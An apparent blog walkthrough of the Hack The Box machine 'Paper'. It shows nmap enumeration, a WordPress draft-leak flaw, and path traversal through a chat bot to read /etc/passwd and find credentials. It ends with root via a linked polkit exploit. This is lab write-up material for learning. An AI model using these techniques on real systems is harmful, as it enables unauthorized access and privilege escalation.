

# Paper HTB Walkthrough

a nice htb box where we exploit wordpress, mess with LFI, and root using a polkit vuln. fun one!

# Introduction  

**Name:** Paper  
**Challenge type:** Boot2Root  
**Rated difficulty:** Easy  
**Box creator:** secnigma  

# Nmap Scan Results  

we will start by scanning open ports on the target machine, here's what nmap found:  

```
$ nmap -p- -sC -sV $IP -oN nmap/full-tcp.nmap
```

```
PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.0 (protocol 2.0)

80/tcp  open  http     syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

443/tcp open  ssl/http syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
```

interesting, we've got SSH, HTTP and HTTPS open. nothing too unusual yet.  

# Enumerating SSH  

```
$ ssh root@10.10.11.143
root@10.10.11.143's password:
```

we can see here that password auth is enabled which isn't the safest. when we get credentials, let's come back here.  

# Enumerating HTTP (Port 80)  

after messing around for a bit, we can see a weird response header in burp suite:  

  

interesting.. let's add that to our /etc/hosts file:  

```
$ echo "10.10.11.143    office.paper" | sudo tee -a /etc/hosts
```

# Enumerating office.paper  

now let's go to office.paper!! after looking at the source code, we can see this website is running wordpress:  

  

now that we know this is running wordpress, let's run wpscan:  

```
$ wpscan --url http://office.paper/
```

wpscan didn't show anything too interesting..  

after searching around, we find this website is vulnerable to `CVE-2019-17671`.  

going to `http://office.paper/?static=1` shows us some VERY juicy information:  

```
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

# Exploring the Chat System  

after going to the registration URL and signing up, we can message the recyclops bot:  

**testing file reading with recyclops bot**  

```
ax0ryn
8:23 PM
recyclops file ../../../../../../etc/passwd

recyclops
Bot
8:23 PM
<!=====Contents of file ../../../../../../etc/passwd=====>
root:x:0:0:root:/root:/bin/bash
[...]
dwight:x:1004:1004::/home/dwight:/bin/bash
<!=====End of file ../../../../../../etc/passwd=====>
```

we can use LFI to read `/etc/passwd`.  

after looking around a bit, we find credentials somewhere in `../hubot/` :)  

# Privilege Escalation  

after logging in with the found creds using SSH, we get user.txt!!  

after enumerating for a bit, i didn't find anything. so, i ran linpeas:  

linpeas showed the polkit version is vulnerable! found this exploit:  

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh  

after running the exploit a few times, we can log in with:  

```
su - secnigma
password: secnigmaftw
```

after that, we run:  

```
sudo bash
```

and then we're root!!  

# Conclusion  

this machine was quite fun!! i really liked chaining multiple things together to go somewhere!!  
